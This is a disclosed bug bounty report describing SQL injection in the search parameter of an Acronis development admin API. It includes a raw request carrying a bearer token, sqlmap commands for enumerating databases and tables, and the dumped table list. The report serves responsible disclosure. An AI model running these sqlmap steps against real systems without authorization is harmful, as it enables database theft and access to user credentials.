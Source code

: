 # SQL injection on admin.acronis.host development web service

## Report Details
- **Report ID**: 923020
- **URL**: https://hackerone.com/reports/923020
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-07-14T03:36:27.941Z
- **Disclosed**: 2021-06-22T18:12:42.683Z

## Reporter
- **Username**: stealthy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
**Summary:**
I found an Acronis domain and started hunting on it. During my hunting, I found an admin panel and was able to access this panel (separate report inbound). It was easy to gain access to this panel, and I was not sure if it was for testing purposes or a genuine admin panel. I played around with minor settings to see if I could change some content on the main page and ensure that this was a real admin panel. I put a quote in the search bar for indexing dashboard pages and intercepted the request. Then I realized all requests are through the administrator API, which I now have access to and an authorization bearer token. Admin API access, combined with the entire site index in the panel (including all content for all pages), confirmed that I am in a real live admin panel.

Next, I noticed the quote returned a server error in the API. I  tested an SQL injection (along with one other critical bug) and confirmed its presence. I can view three databases, and I dumped the table names for one of the databases to see what type of information it contained. In the database, there are tables named `users`, `password_resets`, and more. Furthermore, the login redirected to the main Acronis website, so I knew this data is quite sensitive. I only explored nonsensitive data. The extent of what I did with the SQL injection is diclosed in this report below.

I understand this domain is not rated critical, but I set it because of the severity of the bug.

**Steps to Reproduce:**
Visit the admin panel for Acronis hosting.

    https://admin.acronis.host/

Login with the given credentials and visit the pages section.

    https://admin.acronis.host/#/pages

Here input any data and intercept the request. Below is a copy of the raw request.

```text
GET /api/admin/pages?page=1&limit=100&sort=%2Btype&filter=%7B%7D&search=* HTTP/1.1
Host: dev.acronis.host
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZXYuYWNyb25pcy5ob3N0XC9hcGlcL2F1dGhcL2xvZ2luIiwiaWF0IjoxNTk0Njk1MzgzLCJleHAiOjE1OTQ3MzEzODMsIm5iZiI6MTU5NDY5NTM4MywianRpIjoiSnBkczlKY0x6VHF5QXphOCIsInN1YiI6MSwicHJ2IjoiODdlMGFmMWVmOWZkMTU4MTJmZGVjOTcxNTNhMTRlMGIwNDc1NDZhYSJ9._K-nn1elXhqx1RNszBeZFwX1dbyCVtv63m_-DGp7UmE
Origin: https://admin.acronis.host
Connection: close
Referer: https://admin.acronis.host/dev.acronis.host/en-US/products/4372

```

The `search` parameter is vulnerable. Save the request I provided as a text file on your desktop and run the following command with SQLMap.
```
sudo python sqlmap.py -r {PATH TO FILE} --level 5 --risk 3 --random-agent --dbs
```

This will drop the following three databases.

{F906431}

Next, I used the following flags in SQLMap `-D acronis_site --tables`. The `-D` tells SQLMap which database and `--tables` tells SQLMap to drop table names. I only explored nonsensitive information.
```text
Database: acronis_site
[24 tables]
+----------------------+
| awards               |
| failed_jobs          |
| files                |
| history_pages        |
| locales              |
| migrations           |
| page_products        |
| page_translations    |
| pages                |
| pages_1              |
| pages_2              |
| pages_3              |
| password_resets      |
| product_prices       |
| product_translations |
| products             |
| products_1           |
| related_products     |
| related_tags         |
| resources            |
| tags                 |
| users                |
| variables            |
| webinars             |
+----------------------+
```

After seeing this, I ceased testing this SQL injection and reported the vulnerability directly to your team.

## Impact

Server-side SQL injection leading to database access and exposure of sensitive information. Reading this information likely allows an attacker to execute remote code by stealing admin password resets and user information.

## Attachments
- Screen_Shot_2020-07-13_at_8.30.56_PM.png

